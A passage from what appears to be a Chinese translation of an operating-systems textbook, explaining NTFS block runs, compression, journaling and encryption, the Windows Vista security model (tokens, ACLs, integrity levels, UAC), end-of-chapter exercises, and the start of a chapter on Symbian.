标准的信息域包含文件所有者、安全信息、POSIX需要的时间戳、硬连接计数、只读和存档位，等等。这些域是固定长度的，并且总是存在的。文件名是一个可变长度Unicode编码的字符串。为了使具有非MS-DOS文件名的文件可以访问老的16位程序，文件也可以有一个符合8+3规则的MS-DOS短名字。如果实际文件名符合8+3命名规则，第二个MS-DOS文件名就不需要了。
在NT4.0中，安全信息被放在一个属性中，但在Windows 2000及以后的版本中，安全信息全部都放在一个单独的文件中使得多个文件可以共享相同的安全描述。由于安全信息对于每个用户的许多文件来说是相同的，于是这使得许多MFT记录和整个文件系统节省了大量的空间。
当属性不能全部放在MFT记录中时，就需要使用属性列表。这个属性就会说明在哪里找到扩展记录。列表中的每个条目在MFT中包含一个48位的索引来说明扩展记录在哪里，还包含一个16位的序号来验证扩展记录与基本记录是否匹配。
就像UNIX文件拥有一个I节点号一样，NTFS文件也有一个ID。文件可以依据ID被打开，但是由于ID是基于MFT记录的，并且可以因该文件的记录移动（例如，如果文件因备份被恢复）而改变，所以当ID必须保持不变时，这个NTFS分配的ID并不总是有用。NTFS允许有一个可以设置在文件上而且永远不需要改变的独立对象ID属性。举例来说，当一个文件被拷贝到一个新卷时，这个属性随着文件一起过去。
重解析点告诉分析文件名的过程来做特别的事。这个机制用于显式加载文件系统和符号链接。两个卷属性用于标示卷。随后三个属性处理如何实现目录——小的目录就是文件列表，大的目录使用B+树实现。日志工具流属性用来加密文件系统。
最后，我们关注最重要的属性：数据流（在一些情况下叫流）。一个NTFS文件有一个或多个数据流，这些就是负载所在。默认数据流是未命名的（例如，目录路径\文件名：$DATA），但是替代数据流有自己的名字，例如：目录路径\文件名：流名：$DATA。
对于每个流，流的名字（如果有）会在属性头中。头后面要么是说明了流包含哪些块的磁盘地址列表，要么是仅几百字节大小的流（有许多这样的流）本身。存储了实际流数据的MFT记录称为立即文件（Mullender和Tanenbaum，1984）。
当然，大多数情况下，数据放不进一个MFT记录中，因此这个属性通常是非常驻属性。现在让我们看一看NTFS如何记录特殊数据中非常驻属性的位置。
2.存储分配
保持对磁盘中在可能的情况下，连续分配的块进行跟踪的模型，这是出于效率的原因。举例来说，如果一个流的第一个逻辑块放在磁盘上的块20，那么系统将努力把第二个逻辑块放在块21，第三个逻辑块放在块22，以此类推，实现这些行串的一个方法是尽可能一次分配许多磁盘块。
一个流中的块是通过一串记录描述的，每个记录描述了一串逻辑上连续的块，对于一个没有孔的流来说，只有唯一的一个记录。按从头到尾的顺序写的流都属于这一类。对于一个包含一个孔的流（例如，只有块0～49和块60～79被定义了），会有两个记录。这样的流会产生于先写入前50个块，然后找到逻辑上第60块，然后写其他20个块。当孔被读出时，用全零表示。有孔的文件称为稀疏文件。
每个记录始于一个头，这个头给出第一个块在流中偏移量。接着是没有被记录覆盖的第一个块的偏移量。在上面的例子中，第一个记录有一个（0，50）的头，并会提供这50个块的磁盘地址。第二个记录有一个（60，80）的头，会提供其他20个块的磁盘地址。
每个记录的头后面跟着一个或多个对，每个对给出了磁盘地址和持续长度。磁盘地址是该磁盘块离本分区起点的偏移量；游程在行串中块的数量。在一段行串记录中需要有多少对就可以有多少对。图11-43描述了用这种方式表示的三段、9块的流。
在这个图中，有一个9个块（头，0～8）的短流的MFT记录。它由磁盘上三个行串的连续块组成。第一段是块20～23，第二段是块64～65，第三段是80～82。每一个行串被记录在MFT记录中的一个（磁盘地址，块计数）对中。有多少行串是依赖于当流被创建时磁盘块分配器在找连续块的行串时做的有多好。对于一个n块的流，段数可能是从l到n的任意值。
有必要在这里做几点说明：
首先，用这种方法表达的流的大小没有上限限制。在地址不压缩的情况下，每一对需要两个64位数表示，总共16字节。然而，一对能够表示100万个甚至更多的连续的磁盘空间。实际上，20M的流包含20个独立的包含100万个1KB的块的行串，每个都可以轻易地放在一个MFT记录中，然而一个60KB的被分散到60个不同的块的流却不行。
其次，表示每一对的直截了当的方法会占用2×8个字节，有压缩方法可以把一对的大减小到低于16字节。许多磁盘地址有多个高位0字节。这些可以被忽略。数据头能告诉我们有多少个高位0字节被忽略了，也就是说，在一个地址中实际上有多少个字节被用。也可以用其他的压缩方式。实际上，一对经常只有4个字节。
第一个例子是比较容易的：所有的文件信息能容纳在一个MFT记录中，如果文件比较大或者是高度碎片化以至于信息不能放在一个MFT记录当中，这时会发生什么呢？答案很简单：用两个或更多的MFT记录。从图11-44可以看出，一个文件的首MFT记录是102，对于一个MFT记录而言它有太多的行串，因而它会计算需要多少个扩展的MFT记录。比如说两个，于是会把它们的索引放到首记录中，首记录剩余的空间用来放前k个行串。
注意，图11-44包含了一些多余的信息。理论上不需要指出一串行串的结尾，因为这些信息可以从行串对中计算出来。列出这些信息是为了更有效地搜索：找到在一个给定文件偏移量的块，只需要去检查记录头，而不是行串对。
当MFT记录102中所有的空间被用完后，剩余的行串继续在MFT记录105中存放，并在这个记录中放入尽可能多的项。当这个记录也用完后，剩下的行串放在MFT记录108中。这种方式可以用多个MFT记录去处理大的分段存储文件。
有可能会出现这样的问题：如果文件需要的MFT记录太多，以至于首个MTF记录中没有足够的空间去存放所有的索引。解决这个问题的方法是：使扩展的MFT记录列表成为非驻留的（即：存放在其他的硬盘区域而不是在首MFT记录中），这样它就能根据需要而增大。
图11-45表示一个MFT表项如何描述一个小目录。这个记录包含若干目录项，每一个目录项可以描述一个文件或目录。每个表项包含一个定长的结构体和紧随其后的不定长的文件名。定长结构体包含该文件对应的MFT表项的索引、文件名长度以及其他的属性和标志。在目录中查找一个目录项需要依次检查所有的文件名。
大目录采用一种不同的格式，即用B+树而不是线性结构来列出文件。通过B+树可以按照字母顺序查找文件，并且更容易在目录的正确位置插入新的文件名。
现在有足够的信息去描述使用文件名对文件\??\C:\foo\bar的查找是如何进行的。从图11-22可以知道Win32、原生NT系统调用、对象和I/O管理器如何协作通过向C盘的NTFS设备栈（device stack）发送I/O请求打开一个文件。I/O请求要求NTFS为剩余的路径名\foo\bar填写一个文件对象。
NTFS从C盘根目录开始分析\foo\bar路径，C盘的块可以在MFT中的第五个表项中找到（参考图11-41）。然后在根目录中查找字符串“foo”，返回目录foo在MFT中的索引，接着再查找字符串“bar”，得到这个文件的MFT记录的引用。NTFS通过调用安全引用管理器来实施访问检查，如果所有的检查都通过了，NTFS从MFT记录中搜索得到::$DATA属性，即默认的数据流。
找到文件bar后，NTFS在I/O管理器返回的文件对象上设置指针指向它自己的元数据。元数据包括指向MFT记录的指针、压缩和范围锁、各种关于共享的细节等。大多数元数据包含在一些数据结构中，这些数据结构被所有引用这个文件的文件对象共享。有一些域是当前打开的文件特有的，比如当这个文件被关闭时是否需要删除。一旦文件成功打开，NTFS调用IoCompleteRequest，它通过把IPR沿I/O栈向上传递给I/O和对象管理器。最终，这个文件对象的句柄被放进当前进程的句柄表中，然后回到用户态。之后调用ReadFile时，应用程序能够提供句柄，该句柄表明C:\foo\bar文件对象应该包含在传递到C：设备栈给NTFS的读请求中。
除了支持普通文件和目录外，NTFS支持像UNIX那样的硬连接，也通过一个叫做重解析点的机制支持符号链接。NTFS支持把一个文件或者目录标记为一个重解析点，并将其和一块数据关联起来。当在文件名解析的过程中遇到这个文件或目录时，操作就会失败，这块数据被返回到对象管理器。对象管理器将这块数据解释为另一个路径名，然后更新需要解析的字符串，并重启I/O操作。这种机制用来支持符号链接和挂载文件系统，把文件搜索重定向到目录层次结构的另外一个部分甚至到另外一个不同的分区。
重解析点也用来为文件系统过滤器驱动程序而标记个别文件。在图11-22中显示了文件系统过滤器如何安装到I/O管理器和文件系统之间。I/O请求通过调用IoCompleteRequest来完成，其把控制权转交给在请求发起时设备栈上每个驱动程序插入到IRP中的完成例程。需要标记一个文件的驱动程序首先关联一个重解析标签，然后监控由于遇到重解析点而失败的打开文件操作的完成请求。通过用IRP传回的数据块，驱动程序可以判断出这是否是一个驱动程序自身关联到该文件的数据块。如果是，驱动程序将停止处理完成例程而接着处理原来的I/O请求。通常这将引发一个打开请求，但这时将有一个标志告诉NTFS忽略重解析点并同时打开文件。
3.文件压缩
NTFS支持透明的文件压缩。一个文件能够以压缩方式创建，这意味着当向磁盘中写入数据块时NTFS会自动尝试去压缩这些数据块，当这些数据块被读取时NTFS会自动解压。读或写的进程完全不知道压缩和解压在进行。
压缩流程是这样的：当NTFS写一个有压缩标志的文件到磁盘时，它检查这个文件的前16个逻辑块，而不管它们占用多少个项，然后对它们运行压缩算法，如果压缩后的数据能够存放在15个甚至更少的块中，压缩数据将写到硬盘中；如果可能的话，这些块在一个行串里。如果压缩后的数据仍然占用16个块，这16个块以不压缩方式写到硬盘中。之后，去检查第16-31块看是否能压缩到15个甚至更少的块，以此类推。
图11-46a显示一个文件。该文件的前16块被成功地压缩到了8个，对第二个16块的压缩没有成功，第三个16块也压缩了50%。这三个部分作为三个行串来写，并存储于MFT记录中。“丢失”的块用磁盘地址0存放在MFT表项中，如图11-46b所示。在图中，头（0，48）后面有五个二元组，其中，两个对应着第一个（被压缩）行串，一个对应没有压缩的行串，两个对应最后一个（被压缩）行串。
当读文件时，NTFS需要分辨某个行串是否被压缩过，它可以根据磁盘地址进行分辨，如果其磁盘地址是0，表明它是16个被压缩的块的最后部分。为了避免混淆，磁盘第0块不用于存储数据。同时，因为卷上的第0块包含了引导扇区，用它来存储数据也是不可能的。
随机访问压缩文件也是可行的，但是需要技巧。假设一个进程寻找图11-46中文件的第35块，NTFS是如何定位一个压缩文件的第35块区的呢？答案是NTFS必须首先读取并且解压整个行串，获得第35块的位置，之后就可以将该块传给读取它的进程。选择16个块作为压缩单元是一个折衷的结果，短了会影响压缩效率，长了则会使随机访问开销过大。
4.日志
NTFS支持两种让程序探测卷上文件和目录变化的机制。第一种机制是调用名为NtNotifyChange Directory File的I/O操作，传递一个缓冲区给系统，当系统探测到目录或者子目录树变化时，该操作返回。这个I/O操作的结果是在缓冲区里填上变化记录的一个列表。缓冲区应该足够大，否则填不下的记录会被丢弃。
第二种机制是NTFS变化日志。NTFS将卷上的目录和文件的变化记录保存到一个特殊文件中，程序可以使用特殊文件系统控制操作来读取，即调用API NtFsControlFile并以FSCTL_QUERY_USN_JOURNAL为参数。日志文件通常很大，而且日志中的项在被检查之前重用的可能性非常小。
5.文件加密
如今，计算机用来存储很多敏感数据，包括公司收购计划、税务信息、情书，数据的所有者不想把这些信息暴露给任何人。但是信息的泄漏是有可能发生的，例如笔记本电脑的丢失或失窃；使用MS-DOS软盘重起桌面系统来绕过Windows的安全保护；或者将硬盘从计算机里移到另一台安装了不安全操作系统的计算机中。
Windows提供了加密文件的选项来解决这些问题，因此当电脑的失窃或用MS-DOS重启时，文件内容是不可读的。Windows加密的通常方式是将重要目录标识为加密的，然后目录里的所有文件都会被加密，新创建或移动到这些目录来的文件也会被加密。加密和解密不是NTFS自己管理的，而是由EFS（Encryption File System）驱动程序来管理，EFS作为回调向NTFS注册。
EFS为特殊文件和目录提供加密。在Windows Vista中还有另外一个叫做BitLocker的加密工具，它加密了卷上几乎所有的数据。只要用户使用强密钥来发挥这种机制的优势，任何情况下它都能帮助用户保护数据。考虑到系统丢失或失窃的数量，以及身份泄露的强烈敏感性，确保机密被保护是非常重要的。每天都有惊人数量的笔记本电脑丢失；仅考虑纽约市，华尔街大部分公司平均一周在出租车上丢失一台笔记本电脑。
看过加密后，该从总体上探讨安全问题了。NT的最初设计符合美国国防部C2级安全需求（DoD 5200.28-STD），该橘皮书是安全的DoD系统必需满足的标准。此标准要求操作系统必需具备某些特性才能认定对特定类型的军事工作是足够安全的。虽然Windows Vista并不是专为满足C2兼容性而设计的，但它从最初的NT安全设计中继承了很多安全特性，包括下面的几个：
1)具有反欺骗措施的安全登录。
2)自主访问控制。
3)特权化访问控制。
4)对每个进程的地址空间保护。
5)新页被映射前必需清空。
6)安全审计。
让我们来简要地回顾一下这些条目。
安全登录意味着系统管理员可以要求所有用户必需拥有密码才可以登录。欺骗是指一个恶意用户编写了一个在屏幕上显示登录提示的程序然后走开以期望一个无辜的用户会坐下来并输入用户名和密码。用户名和密码被写到磁盘中并且用户被告知登陆失败。Windows Vista通过指示用户按下CTRL-ALT-DEL登录来避免这样的攻击。键盘驱动总是可以捕获这个键序列，并随后调用一个系统程序来显示真正的登录屏幕。这个过程可以起作用是因为用户进程无法禁止键盘驱动对CTRL-ALT-DEL的处理。但是NT可以并且确实在某些情况下禁用了CTRL-ALT-DEL安全警告序列。这种想法来自于Windows XP和Windows 2000，用来使NT系统对从Windows 98切换过来的用户保持更多的兼容性。
自主访问控制允许文件或者其他对象的所有者指定谁能以何种方式使用它。特权化访问控制允许系统管理员（超级用户）随需覆盖上述权限设定。地址空间保护仅仅意味着每个进程自己的受保护的虚拟地址空间不能被其他未授权的进程访问。下一个条目意味着当进程的堆增长时被映射进来的页面被初始化为零，这样它就找不到页面以前的所有者所存放的旧信息（参见在图11-36中为此目的而提供的清零页的列表）。最后，安全审计使得管理员可以获取某些安全相关事件的日志。
橘皮书没有指定当笔记本电脑被盗时将发生什么事情，然而在一个大型组织中每星期发生一起盗窃是很常见的。于是，Windows Vista提供了一些工具，当笔记本被盗或者丢失时，谨慎的用户可以利用它们最小化损失。当然，谨慎的用户正是那些不会丢失笔记本的人——这种麻烦是其他人引起的。
下一章将描述在Windows Vista中基本的安全概念，以及关于安全的系统调用。最后，我们将看看安全是怎样实现的。
每个Windows Vista用户（和组）用一个SID（Security ID，安全ID）来标识。SID是二进制数字，由一个短的头部后面接一个长的随机部分构成。每个SID都是世界范围内唯一的。当用户启动进程时，进程和它的线程带有该用户的SID运行。安全系统中的大部分地方被设计为确保只有带有授权SID的线程才可以访问对象。
每个进程拥有一个指定了SID和其他属性的访问令牌。该令牌通常由winlogon创建，就像后面说的那样。图11-47展示了令牌的格式。进程可以调用GetTokenInformation来获取令牌信息。令牌的头部包含了一些管理性的信息。过期时间字段表示令牌何时不再有效，但当前并没有使用该字段。组字段指定了进程所隶属的组。POSIX子系统需要该字段。默认的DACL（Discretionary Access Control List，自主访问控制列表）会赋给被进程创建的对象，如果没有指定其他ACL的话。用户的SID表示进程的拥有者。受限SID使得不可信的进程以较少的权限参与到可信进程的工作中，以免造成破坏。
最后，权限字段，如果有的话，赋予进程除普通用户外特殊的权利，比如关机和访问本来无权访问的文件的权利。实际上，权限域将超级用户的权限分成几种可独立赋予进程的权限。这样，用户可被赋予一些超级用户的权限，但不是全部的权限。总之，访问令牌表示了谁拥有这个进程和与其关联的权限及默认值。
当用户登录时，winlogon赋予初始的进程一个访问令牌。后续的进程一般会将这个令牌继承下去。初始时，进程的访问令牌会被赋予其所有的线程。然而，线程在运行过程中可以获得一个不同的令牌，在这种情况下，线程的访问令牌覆盖了进程的访问令牌。特别地，一个客户端线程可以将访问权限传递给服务器线程，从而使得服务器可以访问客户端的受保护的文件和其他对象。这种机制叫做身份模拟（impersonation）。它是由传输层（比如ALPC、命名管道和TCP/IP）实现的、被RPC用来实现从客户端到服务器的通信。传输层使用内核中安全引用监控器组件的内部接口提取出当前线程访问令牌的安全上下文，并把它传送到服务器端来构建用于服务器模拟客户身份的令牌。
另一个基本的概念是安全描述符（security descriptor）。每个对象都关联着一个安全描述符，该描述符描述了谁可以对对象执行何种操作。安全描述符在对象被创建的时候指定。NTFS文件系统和注册表维护着安全描述符的持久化形式，用以为文件和键对象（对象管理器中表示已打开的文件和键的实例）创建安全描述符。
安全描述由一个头部和其后带有一个或多个访问控制入口（Access Control Entry，ACE）的DACL组成。ACE主要有两类：允许项和拒绝项。允许项含有一个SID和一个表示带有此SID的进程可以执行哪些操作的位图。拒绝项与允许项相同，不过其位图表示的是谁不可以执行那些操作。比如，Ida拥有一个文件，其安全描述符指定任何人都可读，Elvis不可访问，Cathy可读可写，并且Ida自己拥有完全的访问权限。图11-48描述了这个简单的例子。Everyone这个SID表示所有的用户，但该表项会被任何显式的ACE覆盖。
除DACL外，安全描述符还包含一个系统访问控制列表（System Access Control List，SACL）。SACL跟DACL很相似，不过它表示的并不是谁可以使用对象，而是哪些对象访问操作会被记录在系统范围内的安全事件日志中。在图11-48中，Marilyn对文件执行的任何操作都将会被记录。SACL还包含完整度级别字段，我们将稍后讨论它。
Windows Vista的访问控制机制大都基于安全描述符。通常情况下进程创建对象时会将一个安全描述符作为参数提供给CreateProcess、CreateFile或者其他对象创建调用。该安全描述符就会附属在这个对象上，就如在图11-48中看到的那样。如果没有给创建对象的函数调用提供安全描述符，调用者的访问令牌中默认的安全设置（参见图11-47）将被使用。
大部分Win32 API安全调用跟安全描述符的管理相关，因此在这里主要关注它们。图11-49列出了那些最重要的调用。为了创建安全描述符，首先要分配存储空间，然后调用Initialize Security Descriptor初始化它。该调用填充了安全描述符的头部。如果不知道所有者的SID，可以根据名字用LookupAccountSid来查询。随后SID被插入到安全描述符中。对组SID也一样，如果有的话。通常，这些SID会是调用者自己的SID和它的某一个组SID，不过系统管理员可以填充任何SID。
这时可调用InitializeAcl初始化安全描述符的DACL（或者SACL）。ACL入口项可通过AddAccess AllowedAce和AddAccessDeniedAce。可多次调用这些函数以添加任何所需的ACE入口项。可调用DeleteAce来删除一个入口项，这用来修改已存在的ACL而不是构建一个新的ACL。SetSecurity DescriptorDacl可以把一个准备就绪的ACL与安全描述符关联到一起。最后，当创建对象时，可将新构造的安全描述符作为参数传送使其与这个对象相关联。
在独立的Windows Vista系统中，安全由大量的组件来实现，我们已经看过了其中大部分组件（网络是完全不同的事情，超出了本书的讨论范围）。登录和认证分别由winlogon和lsass来处理。登录成功后会获得一个带有访问令牌的GUI shell程序（explorer.exe）。这个进程使用注册表中的SECURITY和SAM表项。前者设置一般性的安全策略，而后者包含了针对个别用户的安全信息，如11.2.3节讨论的那样。
一旦用户登录成功，每当打开对象进行访问就会触发安全操作。每次OpenXXX调用都需提供正要被打开的对象的名字和所需的权限集合。在打开的过程中，安全引用监控器会检查调用者是否拥有所需的权限。它通过检查调用者的访问令牌和跟对象关联的DACL来执行这种检查。安全监控管理器依次检查ACL中的每个ACE。一旦发现入口项与调用者的SID或者调用者所隶属的某个组相匹配，访问权限即可确定。如果调用者拥有所需的权限，则打开成功；否则打开失败。
正如已经看到的那样，除允许项外，DACL还包括拒绝项。因此，通常把ACL中的拒绝访问的项置于赋予访问权限的项之面，这样一个被特意拒绝访问的用户不能通过作为拥有合法访问权限的组的成员这样的后门获得访问权。
对象被打开后，调用者会获得一个句柄。在后续的调用中，只需检查尝试的操作是否在打开时所申请的操作集合内，这样就避免了调用者为了读而打开文件然后对该文件进行写操作。另外，正如SACL所要求的那样，在句柄上进行的调用可能会导致产生审计日志。
Windows Vista增加了另外的安全设施来应对使用ACL保护系统的共同问题。进程的令牌中含有新增加的必需的完整性级别（Integrity-Level）SID字段并且对象在SACL中指定了一个完整性级别ACE。完整性级别阻止了对对象的写访问，不管DACL中有何种ACE。特别地，完整性级别方案用来保护系统免受被攻击者控制的Internet Explorer进程（可能用户接受了不妥的建议而从未知的网站下载代码）的破坏。低权限的IE，运行时的完整性级别被设置为低。系统中所有的文件和注册表中的键拥有中级的完整性级别，因此低完整性级别的IE不能修改它们。
近年来Windows增加了很多其他的安全特性。对于Windows XP Service Pack 2来说，系统的大部分在编译时使用了可对多种栈缓冲区溢出漏洞进行验证的选项（/GS）。另外，在AMD64体系结构中一种叫做NX的设施可限制执行栈上的代码。即使在x86模式下处理器中的NX位也是可用的。NX代表不可执行（no execute），它可以给页面加上标记使得其上的代码不能被执行。这样，即使攻击者利用缓冲区溢出漏洞向进程插入代码，跳转到代码处开始执行也不是一件容易的事情。
Windows Vista引入了更多的安全特性来阻止攻击者。加载到内核态的代码要经过检查（这在x64系统中是默认的）并且只有被正确签名的代码才可以被加载。在每个系统中，DLL和EXE的加载地址连同栈分配的地址都经过了有意的混排，这使得攻击者不太可能利用缓冲区溢出漏洞跳转到一个众所周知的地址然后执行一段被特意编排的可获得权限提升的代码。会有更小比例的系统受到依赖于标准地址处的二进制数据的攻击。在受到攻击时系统更加可能只是崩溃掉，将一个潜在的权限升级攻击转化为危险性更小的拒绝服务攻击。
在微软公司称为用户账户控制（User Account Control，UAC）的引入是另一个改变。这用来解决大部分用户以管理员身份运行系统这个长期的问题。Windows的设计并不需要用户以管理员身份使用系统，但在很多发布版本中对此问题的忽视使得如果你不是管理员就不可能顺利地使用Windows。始终以管理员身份使用系统是危险的。用户的错误会轻易地毁坏系统，而且如果用户由于某种原因被欺骗或攻击了而去运行可能危害系统的代码，这些代码将拥有管理员的访问权限并且可能会把其自身深深埋藏在系统中。
如果有UAC，当尝试执行需要管理员访问权限的操作时，系统会显示一个重叠的特殊桌面并且接管控制权，使得只有用户的输入可以授权这次访问（与C2安全中CTRL-ALT-DEL的工作方式类似）。当然，攻击者不需要成为管理员也可以破坏用户所真正关心的，比如他的个人文件。但UAC确实可阻止现有类型的攻击，并且如果攻击者不能修改任何系统数据或文件，那受损的系统恢复起来也比容易。
Windows Vista中最后的一个安全特性已经提到过了。这就是对具有安全边界的受保护进程（protected process）的支持。通常，在系统中用户（由令牌对象代表）定义了权限的边界。创建进程后，用户可通过任意数目的内核设施来访问进程以进行进程创建、调试、获取路径名和线程注入等。受保护进程关掉了用户的访问权限。这个设施在Vista中的唯一用处就是允许数字版权管理软件更好地保护内容。对受保护进程的使用在未来的发布版本中可能会用于对用户更加友好的目的，比方说保护系统以应对攻击者而不是保护内容免受系统所有者的攻击。
由于世界范围内越来越多的针对Windows系统的攻击，近年来微软公司加大了提高Windows安全性的努力。其中某些攻击非常成功，使得整个国家和主要公司的计算机都宕掉了，导致了数十亿美元的损失。这些攻击大都利用了编码中的小错误，这些错误可导致缓冲区溢出，从而使得攻击者可以通过重写返回地址、异常处理指针和其他数据来控制程序的执行。使用类型安全的语言而不是C和C++可避免许多此类的问题。即使使用这些不安全的语言，如果让学生更好地理解参数和数据验证中的陷阱，许多漏洞也可以避免。毕竟，许多在Microsoft编写代码的软件工程师在几年前也还是学生，就像正在阅读此实例研究的你们中的许多人一样。有许多关于在基于指针的语言中可被利用的编码上的小错误的类型以及怎样避免的书籍（比如，Howard和LeBlank，2007）。
Windows Vista中的内核态由HAL、NTOS的内核和执行体层以及大量实现了从设备服务到文件系统、从网络到图形的设备驱动程序组成。HAL对其他组件隐藏了硬件上的某些差别。内核层管理CPU以支持多线程和同步，执行体实现大多数的内核态服务。
执行体基于内核态的对象，这些对象代表了关键的执行体数据结构，包括进程、线程、内存区、驱动程序、设备以及同步对象等。用户进程通过调用系统服务来创建对象并获得句柄的引用以用于后续对执行体组件的调用。操作系统也创建一些内部对象。对象管理器维护者一个名字空间，对象可以插入该名字空间以备后续的查询。
Windows系统中最重要的对象是进程、线程和内存区。进程拥有虚拟地址空间并且是资源的容器。线程是执行的单元并被内核层使用优先级算法调度执行，该优先级算法使优先级最高的就绪线程总在运行，并且如有必要可抢占低优先级线程。内存区表示可以映射到进程地址空间的像文件这样的内存对象。EXE和DLL等程序映像用内存区来表示，就像共享内存一样。
Windows支持按需分页虚拟内存。分页算法基于工作集的概念。系统维护着几种类型的页面列表来优化内存的使用。这些页面列表是通过调整工作集来填充的，调整过程使用了复杂的规则试图重用在长时间内没有被引用的物理页面。缓存管理器管理内核中的虚拟地址并用它将文件映射到内存，这提高了许多应用程序的I/O性能，因为读操作不用访问磁盘就可被满足。
设备驱动程序遵循Windows驱动程序模型，并执行输入/输出。每个驱动程序开始先初始化一个驱动程序对象，该对象含有可被系统调用以操控设备的过程的地址。实际的设备用设备对象来代表，设备对象可以根据系统的配置描述来创建，或者由即插即用管理器按照它在枚举系统总线时所发现的设备创建。设备组织成一个栈，I/O请求包沿着栈向下传递并被每个设备的驱动程序处理。I/O具有内在的异步性，驱动程序程序通常将请求排队以便后续处理然后返回到调用者。文件系统卷作为I/O系统中的设备实现。
NTFS文件系统基于一个主文件表，每个文件或者目录在表中有一条记录。NTFS文件系统的所有元数据本身是NTFS文件的一部分。每个文件含有多个属性，这些属性或存储在MFT记录中或者不在其中（存储在MFT外部的块中）。除此之外，NTFS还支持Unicode、压缩、日志和加密等。
最后，Windows Vista拥有一个基于访问控制列表和完整性级别的成熟的安全系统。每个进程带有一个令牌，此令牌表示了用户的标识和进程所具有的特殊权限。每个对象有一个与其相关联的安全描述符。安全描述符指向一个自主访问控制列表，该列表中包含允许或者拒绝个体或者组访问的访问控制入口项，Windows在最近的发行版本中增加了大量的安全特性，包括用BitLocker来加密整个卷，采用地址空间随机化，不可执行的堆栈以及其他措施使得缓冲区溢出攻击更加困难。
1.HAL可以跟踪从1601年开始的所有时间。举一个例子，说明这项功能的用途。
2.在11.3.2节，我们介绍了在多线程应用程序中一个线程关闭了句柄而另一个线程仍然在使用它们所造成的问题。解决此问题的一种可能性是插入序列域。请问该方法是如何起作用的？需要对系统做哪些修改？
3.Win32系统没有信号功能。如果要引入此功能，我们可以将信号设置为进程所有，线程所有，两者都有或者两者都没有。试着提出一项建议，并解释为什么。
4.另一种使用DLL的方式是静态地将每个程序链接到它实际调用到那些库函数，既不多也不少。在客户端机器或者服务器机器上引入此方法，哪个更合理？
5.在Windows中线程拥有独立的用户态栈和内核态栈的原因是哪些？
6.TLB对性能有重大的影响。为了提高TLB的有效性，Windows使用了大小为4MB的页，这是什么？
7.在一个执行体对象上可定义的不同操作的数量有没有限制？如果有，这个限制从何而来？如果没有，请说明为什么。
8.Win32 API的调用WaitForMultipleObjects以一组同步对象的句柄为参数，使得线程被这组同步对象阻塞。一旦它们中的任何一个收到信号，调用者线程就会被释放。这组同步对象是否可以包含两个信号灯、一个互斥体和一个临界区？理由是什么？提示:这不是一个恶作剧的问题，但确实有必要认真考虑一番。
9.给出三个可能会终止线程的原因。
10.如11.4节所述，有一个特殊的句柄表用于为进程和线程分配ID。句柄表的算法通常是分配第一个可用的句柄（按照后进先出的顺序维护空闲链表）。在最新发布的Windows版本中，该算法变成了ID表总是以先进先出的顺序跟踪空闲链表。使用后进先出顺序分配进程线ID有什么潜在的问题？为什么.UX操作系统没有这个问题？
11.假设时间片配额被设置为20毫秒，当前优先级为24的线程在配额开始的时候刚开始执行。突然一个I/O操作完成了并且一个优先级为28的线程变成就绪状态。这个线程需要等待多久才可以使用CPU?
12.在Windows Vista中，当前的优先级总是大于或等于基本的优先级。是否在某些情况下当前的优先级低于基本的优先级也是有意义的？若有，请举例。否则请说明原因。
13.在Windows中很容易实现一些设施将运行在内核中的线程临时依附到其他进程的地址空间。为什么在用户态却很难实现？这样做有何目的？
14.即使有很多空闲的可用内存而且内存管理器也不需要调整工作集，分页系统仍然会经常对磁盘进行写操作。为什么？
15.为什么用来访问进程页目录和页表的物理页面的自身映射数据总是占用同一片4MB的内核虚拟地址空间（在x86上）？
16.如果保留了一段虚拟地址空间但是没有提交它，你认为系统会为其创建一个VAD吗？请证明你的答案。
17.在图11-36中，哪些转移是由策略决定的，而不是由系统事件（例如，一个进程退出并释放其页面）所强迫的转移？
18.假设一个页面被共享并且同时存在于两个工作集中。如果它从一个工作集移出，在图11-36中它将会到哪里去？当它从第二个工作集移出时会发生什么？
19.当进程取消对一个页面的映射时，干净的页会进行图11-36中的转移（5），那脏的栈页怎样处理呢？为什么脏的栈页面被取消映射时不会被转移到已修改列表中呢？
20.假设一个代表某种类型互斥锁（比如互斥对象）的分发对象被标记为使用通知事件而不是同步事件来声明锁被释放。为什么这样是不好的？你的回答在多大程度上依赖于锁被持有的时间、时间片配额的长度和系统是否为多处理器的？
21.一个文件存在如下映射。请给出MFT的行串。
22.考虑图11-43中的MFT记录。假设该文件增长了并且在文件的末尾添加了第10个块。新块的序号是66。现在MFT记录会是什么样子？
23.在图11-46b中，最先的两个行串的长度都为8个块。你觉得它们长度相等只是偶然的，还是跟压缩的工作方式有关？请解释理由。
24.假如您想创建Windows Vista的精简版。在图11-47中可以取消哪些字段而不削弱系统的安全性？
25.由许多程序（Web浏览器、Office、COM服务器）使用的一个扩展模型是对程序所包含的DLL添加钩子函数来扩展其底层功能。只要在加载DLL前仔细模拟客户的身份，该模型对基于RPC的服务来说就是合理的，是这样的吗？为什么不是？
26.在NUMA机器上，不管何时Windows内存管理器需要分配物理内存来处理页面失效，它总尝试从当前线程的理想的处理器的NUMA节点中获取。为什么？如果线程正运行在其他处理器上呢？
27.系统崩溃时，应用程序可以轻易地从基于卷的影子副本的备份中恢复，而不是从磁盘状态中恢复。请给出几个这样的例子。
28.在某些情况下为了满足安全性的要求需要为进程提供全零的页面，在11.9节中向进程的堆提供内存就是这样的一种情况。请给出一个或者多个其他需要对页面清零的虚拟内存操作。
29.在当前所有的Windows发行版本中，regedit命令可用于导出部分或全部注册表到一个文本文件。在一次工作会话中保存注册表若干次，看看有什么变化。如果您能够在Windows中安装软件或硬件，请找出安装或卸载程序或设备时注册表有何变化。
30.写一个UNIX程序，模拟用多个流来写一个NTFS文件。它应能接受一个或多个文件作为参数，并创建一个输出文件，该文件的一个流包含所有参数的属性，其他的流包含每个参数的内容。然后再写一个程序来报告这些属性和流并提取出所有的组成成分。
在前面的两章里，我们已经介绍了两种在台式机以及笔记本电脑上通用的操作系统：Linux以及Windows Vista。但实际上，超过90%的CPU都并非用于台式机或笔记本电脑，而是用于嵌入式系统，例如手机、PDA、数码相机、便携式摄像机、游戏机、iPod、MP3播放器、CD播放器、DVD刻录机、无线路由器、电视机、GPS接收器、激光打印机、汽车，以及其他许多消费产品。它们大多使用现代的32位或64位芯片，几乎全部安装有成熟的操作系统。但是很少有人意识到这些操作系统的存在。在这一章里，我们将研究嵌入式系统中十分通用的一个操作系统：Symbian操作系统。
Symbian操作系统是一个运行在一些厂商的智能手机平台上的操作系统。智能手机因其运行功能齐全的操作系统以及利用台式机的特性而得名。Symbian操作系统用来作为很多厂商的多种智能手机的基础，通过精心设计，专门运行在智能手机平台上，即那些CPU、内存以及存储容量有限、主要针对通信的通用计算机。
